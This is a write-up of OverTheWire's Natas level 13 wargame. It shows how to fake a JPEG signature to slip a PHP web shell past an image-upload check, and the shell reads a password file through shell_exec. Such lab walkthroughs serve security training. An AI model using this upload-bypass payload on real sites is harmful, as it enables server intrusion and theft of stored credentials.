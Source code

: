 ```yaml
---
layout: post
title:  "Natas Level 13"
date:   2015-09-28 20:50
categories: natas wargame web overthewire
author: Nate
---
```

## Step 1: View the source code
The only difference between this level and natas12 is the line where the file is checked for an image signature.  If you click "View Source Code" at http://natas13.natas.labs.overthewire.org/index-source.html, you'll see this function:

{% highlight javascript linenos %}
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    }
{% endhighlight %}

The documentation for exif_imagetype() is available at php.net:
http://php.net/manual/en/function.exif-imagetype.php

Reading through the documentation, we see that it "reads the first bytes of an image and checks its signature."  Thus, we need to find a way to fake an image signature.

An astute observer might also note that the server script isn't checking for file extensions.  A php script just like the one used for natas12 will be interpreted by the webserver because of it's file extension and ignore anything else like the signature of an image until it reaches the opening '<?php' that indicates a script to follow.

## Step 2: Fake an image file signature
There are plenty of websites on the internet that provide file signatures for various image formats.  A cursory search engine query will turn up something you can use.  The initial mistake I made was thinking I could open up a file and write hex values by hand.  This was my payload:
{% highlight php linenos %}
FFD8FFE0
<?php
$password = shell_exec("cat /etc/natas_webpass/natas13");
echo "<pre>$output</pre>";
?>
{% endhighlight %}

I tried to prepend a jpeg signature to my php script and found that it still didn't fool the exif_imagetype() function.  So I grabbed a jpeg file from my laptop and did a hexdump:

```bash
~# hexdump image.jpeg
0000000 ff d8 ff e0 00 10 4a 46 49 46 00 01 01 00 00 01
```

Then I tried the same thing on my malfunctioning payload:

```
~# hexdump test.php
0000000 46 46 44 38 46 46 45 30 0a 3c 3f 70 68 70 0a 24
0000010 70 61 73 73 77 6f 72 64 20 3d 20 73 68 65 6c 6c
0000020 5f 65 78 65 63 28 22 63 61 74 20 2f 65 74 63 2f
0000030 6e 61 74 61 73 5f 77 65 62 70 61 73 73 2f 6e 61
0000040 74 61 73 31 33 22 29 3b 0a 65 63 68 6f 20 22 3c
0000050 70 72 65 3e 24 6f 75 74 70 75 74 3c 2f 70 72 65
0000060 3e 22 3b 0a 3f 3e 0a
0000067
```

Okay, so I can't write that by hand.  A little online research suggested writing some code to do it for me:
{% highlight python linenos %}
#!/bin/python
fp = open("test.php",'w')
fp.write('\xFF\xD8\xFF\xE0' + 'shell_exec("cat /etc/natas_webpass/natas14");')
fp.close()
{% endhighlight %}

So then I opened up my file with an editor:
{% highlight php linenos %}
ÿØÿà<?php print shell_exec("cat /etc/natas_webpass/natas14"); ?>
{% endhighlight %}
Those weird characters before my php script are the binary hex values that we were looking for.
Just to confirm, I took a look at the file in hexdump again:

```bash
~# hexdump test.php
0000000 ff d8 ff e0 3c 3f 70 68 70 20 70 72 69 6e 74 20
0000010 73 68 65 6c 6c 5f 65 78 65 63 28 22 63 61 74 20
0000020 2f 65 74 63 2f 6e 61 74 61 73 5f 77 65 62 70 61
0000030 73 73 2f 6e 61 74 61 73 31 34 22 29 3b 20 3f 3e
0000040 0a
0000041
```

It worked.  Now lets see if we can fool the server.

## Step 3: Upload your payload

Just upload the working file you just created, and sure enough, we got past the filter.  Natas13 gave us a link to our new file.  Follow the link, copy the password - making sure to not copy the first 4 values (those are the binary hex values used to fake the image signature).
